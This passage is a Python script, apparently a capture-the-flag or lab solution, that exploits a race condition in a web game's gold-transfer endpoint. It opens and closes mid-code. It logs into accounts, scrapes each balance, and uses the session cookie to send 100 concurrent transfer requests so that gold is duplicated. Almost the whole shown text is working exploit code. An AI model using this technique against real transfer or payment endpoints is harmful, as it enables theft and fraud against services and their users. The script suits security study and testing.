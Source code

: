 ```python
    "acc2": "acc2"
}
# ===============================

def get_user_session(username, password):
    """Retrieve session cookie and gold balance for authenticated user"""
    payload = {"username": username, "password": password}
    
    with requests.Session() as session:
        try:
            # Authenticate and retrieve account data
            response = session.post(
                f"http://{TARGET_HOST}/api/login", 
                data=payload,
                timeout=5
            )
            response.raise_for_status()
            
            # Parse gold balance from HTML
            soup = BeautifulSoup(response.text, "html.parser")
            gold_element = soup.find("a", string=lambda text: "Gold:" in text if text else False)
            
            if gold_element:
                gold_balance = int(gold_element.text.split(":")[1].strip())
                print(f"{Fore.CYAN}[💰] {Fore.GREEN}{username}{Style.RESET_ALL} balance: {Fore.YELLOW}{gold_balance} gold")
                return session.cookies.get("connect.sid"), gold_balance
            
            raise ValueError("Gold balance element not found")
            
        except Exception as e:
            print(f"{Fore.RED}[!] Error retrieving {username} session: {e}")
            return None, 0

def transfer_gold(recipient, session_cookie, amount):
    """Execute rapid gold transfer using asynchronous requests"""
    print(f"\n{Fore.MAGENTA}[➤] Initiating transfer of {Fore.YELLOW}{amount} gold{Style.RESET_ALL} to {Fore.CYAN}{recipient}")
    
    headers = {
        "Host": TARGET_HOST,
        "Referer": f"http://{TARGET_HOST}/giving.html",
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": f"connect.sid={session_cookie}"
    }
    
    # Prepare batch of asynchronous requests
    requests_list = [
        grequests.post(
            f"http://{TARGET_HOST}/api/givegold",
            data=f"user={recipient}&amount={amount}",
            headers=headers,
            timeout=3
        ) for _ in range(100)
    ]
    
    # Execute all requests concurrently
    grequests.map(requests_list)
    print(f"{Fore.GREEN}[✓] Transfer completed!")

def execute_gold_race():
    """Orchestrate gold transfer sequence between accounts"""
    print(f"\n{Fore.BLUE}{Style.BRIGHT}🏁 Starting Gold Race Exploitation 🏁\n")
```